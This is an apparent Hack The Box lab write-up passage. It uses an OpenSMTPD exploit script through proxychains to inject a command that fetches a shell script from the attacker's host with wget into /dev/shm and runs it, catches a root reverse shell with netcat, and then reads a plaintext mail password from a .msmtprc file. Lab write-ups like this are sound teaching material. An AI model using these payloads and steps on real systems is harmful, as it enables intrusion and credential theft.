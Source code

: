 Setup a python webserver:
```
┌──(kali㉿kali)-[~/Documents/Other/HacktheBox/tentacel]
└─$ sudo python3 -m http.server 80                                              
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Setup a listener:
```
┌──(kali㉿kali)-[~/Documents/Other/HacktheBox/tentacel]
└─$ nc -nlvp 443  
```
And run the script.
The next command will get the file with wget, place it into the **/dev/shm** folder of the target and runs the script with the bash command.
```
──(kali㉿kali)-[~/Documents/Other/HacktheBox/tentacel]
└─$ sudo proxychains python3 47984.py 10.241.251.113 25 'wget 10.10.14.43/chimpey1.sh -O /dev/shm/chimpey1.sh; bash /dev/shm/chimpey1.sh'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.129.69.39:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done

```
Ladies and gents: We have our first foothold!
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 443                                                                                                                                                                     
listening on [any] 443 ...
connect to [10.10.14.43] from (UNKNOWN) [10.129.69.39] 59396
bash: cannot set terminal process group (150): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@smtp:~# 

```
After some enumerating I found a password, stored in the **.msmtprc** file:
```
root@smtp:/home/j.nakazawa# cat .msmtprc
cat .msmtprc
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

```